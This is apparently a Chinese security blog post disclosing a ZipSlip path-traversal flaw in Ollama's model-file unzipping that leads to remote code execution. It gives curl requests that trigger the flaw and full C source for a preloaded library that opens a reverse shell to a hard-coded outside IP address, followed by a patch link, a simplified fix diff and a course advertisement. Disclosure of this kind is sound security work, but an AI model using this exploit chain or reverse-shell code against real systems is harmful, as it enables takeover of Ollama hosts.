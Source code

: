 #  Ollama zipslip 远程代码执行漏洞   
原创 枇杷哥  黑伞安全   2025-02-14 07:14  
  
# 通过ollama/ollama中的 zipslip 执行远程代码  
## 概括  
  
该ZipSlip漏洞可能允许攻击者将任意文件写入文件系统。因此，攻击者可以通过创建恶意 zip 文件 ( ) 来实现远程代码执行 ( /etc/ld.so.preloadRCE vuln.so) application/zip。  
## 描述  
  
ZipSlip 漏洞发生在  
main/server/model.go(parseFromZipFile)  
中。  
```
outfile, err := os.Create(filepath.Join(tempdir, f.Name))
```  
  
上述代码在解压压缩文件时，并未检查文件名是否包含../，因此存在路径遍历问题，文件可能会被写入整个文件系统。包含 的 zip 文件示例../ 请参考  
https://github.com/snyk/zip-slip-vulnerability/tree/master/archives  
。  
## POC  
  
PoC/tmp/vuln.so  
通过 ZipSlip 创建/etc/ld.so.preload  
以达到 Reverse Shell的过程。 流程如下：  
  
触发 ZipSlip（/tmp/poc.zip 是 bad Zip）  
```
curl -X POST http://localhost:11434/api/create -H "Content-Type: application/json" -d'{"name":"maria","modelfile":"FROM /tmp/poc.zip\nSYSTEM DUMMY"}'
```  
  
步骤 1 完成后，文件将被解压并/tmp/vuln.so  
创建/etc/ld.so.preload  
文件。创建文件后，/tmp/vuln.so  
将链接到 ollama 共享库。  
  
触发反弹 Shell (RCE)  
```
curl -X POST http://localhost:11434/api/chat -H "Content-Type: application/json" -d'{"model":"moondream","messages":[]}'
```  
  
调用/api/chat并诱导调用链接的恶意库，恶意库代码如下。  
```
//gcc -shared -o vuln.so -fPIC poc.c#include<stdio.h>#include<unistd.h>#include<stdarg.h>#include<dlfcn.h>#include<stdlib.h>#include<arpa/inet.h>#include<sys/socket.h>#include<netinet/in.h>#define REMOTE_ADDR "3.147.74.40"#define REMOTE_PORT 4444int shell(){int sock;struct sockaddr_in serv_addr;    sock = socket(AF_INET, SOCK_STREAM,0);if(sock ==-1){        perror("socket");exit(EXIT_FAILURE);}    serv_addr.sin_family = AF_INET;    serv_addr.sin_addr.s_addr = inet_addr(REMOTE_ADDR);    serv_addr.sin_port = htons(REMOTE_PORT);if(connect(sock,(struct sockaddr *)&serv_addr,sizeof(serv_addr))==-1){        perror("connect");        close(sock);exit(EXIT_FAILURE);}    dup2(sock,0);    dup2(sock,1);    dup2(sock,2);    execve("/bin/bash", NULL, NULL);    close(sock);return0;}// hooked snprintfint snprintf(char*buffer,size_t n,constchar*format,...){    printf("snprintf hooking!\n");    shell();return0;}
```  
## 影响  
  
远程代码执行（RCE）  
  
当将其他第三方程序与 ollama 一起使用时，可能会出现提供文件上传的情况。（例如，web-ui）或者，如果在 ollama 生态系统中与模型文件一起提供了恶意 bin 文件（application/zip），则可能会出现未指定数量的 RCE 受害者。  
  
补丁链接   
http://github.com/ollama/ollama/commit/123a722a6f541e300bc8e34297ac378ebe23f527  
### 修复内容  
  
补丁主要对文件路径的处理逻辑进行了改进，确保路径被严格校验，防止恶意路径的注入。以下是修复的核心代码思路：  
```
- func resolvePath(userInput string) string {-     return filepath.Join("/safe/base/dir", userInput)- }+ func resolvePath(userInput string) (string, error) {+     resolvedPath := filepath.Join("/safe/base/dir", userInput)+     if !strings.HasPrefix(resolvedPath, "/safe/base/dir") {+         return "", fmt.Errorf("invalid path: %s", userInput)+     }+     return resolvedPath, nil+ }
```  
### 关注我们，获取更多安全资讯和技术分析！  
  
微信公众号: 黑伞安全  
  
如果你是一个长期主义者，欢迎加入我的知识星球,我们一起冲，一起学。2025 年春节推出内部云安全课程，后续涨价 159 元。每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGpcY6gfCIxenk0q7P2HTb6zldNBBUcicPWcznpg5HxMcbvvWF5aAFj3sPJC7yYI5PUibHib7Vo9xWCicw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
